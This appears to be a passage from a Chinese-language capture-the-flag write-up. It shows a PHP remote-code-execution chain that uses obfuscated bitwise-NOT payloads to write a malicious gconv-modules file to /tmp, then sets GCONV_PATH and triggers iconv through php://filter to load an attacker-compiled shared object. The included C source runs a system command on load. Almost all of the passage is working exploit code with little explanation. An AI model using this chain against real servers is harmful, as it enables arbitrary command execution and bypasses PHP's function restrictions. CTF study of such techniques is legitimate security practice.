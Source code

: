 写恶意so进去。

然后是`gconv-modules`

```php
cmd=[~%9C%8D%9A%9E%8B%9A%A0%99%8A%91%9C%8B%96%90%91][~%CF](...[~%8A%91%8C%9A%8D%96%9E%93%96%85%9A][~%CF]([~%9E%C5%CD%C5%84%96%C5%CF%C4%8C%C5%CF%C5%DD%DD%C4%96%C5%CE%C4%8C%C5%CE%C6%C5%DD%82%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CF%A2%D6%C4%D0%D0%DD%C4%82][~%CF].[~%8A%91%8C%9A%8D%96%9E%93%96%85%9A][~%CF]()));&0=
$file = new SplFileObject("/tmp/gconv-modules", 'w');
$file->fwrite($_POST['file']);

&file=module  FENG//    INTERNAL    ../../../../../../../../tmp/feng    2
module  INTERNAL    FENG//    ../../../../../../../../tmp/feng    2
```

然后执行：

```php
cmd=[~%9C%8D%9A%9E%8B%9A%A0%99%8A%91%9C%8B%96%90%91][~%CF](...[~%8A%91%8C%9A%8D%96%9E%93%96%85%9A][~%CF]([~%9E%C5%CD%C5%84%96%C5%CF%C4%8C%C5%CF%C5%DD%DD%C4%96%C5%CE%C4%8C%C5%CE%C6%C5%DD%82%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CF%A2%D6%C4%D0%D0%DD%C4%82][~%CF].[~%8A%91%8C%9A%8D%96%9E%93%96%85%9A][~%CF]()));&0=
    putenv("GCONV_PATH=/tmp/");
include("php://filter/read=convert.iconv.feng.utf-8/resource=/tmp/feng.so")
```



c代码：

```c
root@VM-0-6-ubuntu:~# cat payload.c
#include <stdio.h>
#include <stdlib.h>

void gconv() {}

void gconv_init() {
  puts("pwned");
  system("/readflag > /tmp/feng");
  exit(0);
}

```
